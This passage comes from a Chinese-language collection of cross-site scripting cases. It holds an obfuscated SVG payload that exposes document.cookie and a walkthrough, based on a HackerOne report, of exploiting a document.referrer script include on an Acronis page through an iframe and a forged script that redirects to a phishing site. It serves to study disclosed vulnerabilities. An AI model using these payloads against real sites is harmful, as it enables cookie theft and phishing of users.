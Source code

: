 payload：

```
1“<!--><Svg OnLoad=（confirm）（document.cookie）<!--
```

### 23、注入点为document.referrer的RXSS

[Acronis | Report #961787 - CSRF and XSS on www.acronis.com | HackerOne](https://hackerone.com/reports/961787)

#### 一、**问题代码定位：**

在目标页面的 JavaScript 中，存在以下危险代码：

```
try {
  // 其他 document.write 语句...
  document.write('<script src="' + document.referrer + '/marketo/common.js"></script>');
} catch(e) {}
```

直接使用 `document.referrer` 动态生成脚本标签，且未对来源进行校验。

#### 二、攻击思路：

1. **搭建恶意网站**：
   攻击者创建一个页面，内嵌目标页面的 iframe：

   ```
   <iframe src="https://promo.acronis.com/GL-Trial-MassTransit.html"></iframe>
   ```

2. **伪造 `referrer` 路径**：
   恶意网站的同目录下放置伪造的 `marketo/common.js`：

   ```
   // 恶意代码示例
   alert('XSS');
   window.location.href = "https://phishing-site.com";
   ```

3. **诱导用户访问恶意页面**：
   用户访问后，目标页面会加载攻击者的脚本并执行。

#### 三、与http referer的区别

| **特性**         | **`document.referrer` (JavaScript)**          | **HTTP `Referer` 头**                |
| :--------------- | :-------------------------------------------- | :----------------------------------- |
| **来源**         | 由浏览器自动生成，表示当前页面的来源 URL      | 由浏览器在 HTTP 请求中发送的头部字段 |
| **可控性**       | 仅当用户通过点击链接或表单提交跳转时设置      | 可通过工具（如 Burp Suite）直接修改  |
| **修改权限**     | **前端不可写**（只读属性）                    | 可被代理工具篡改                     |
| **漏洞利用条件** | 需控制用户访问的上一页面（如恶意网站 iframe） | 修改请求头不影响 `document.referrer` |

### 24、X2CRM的一个存储XSS -> CVE
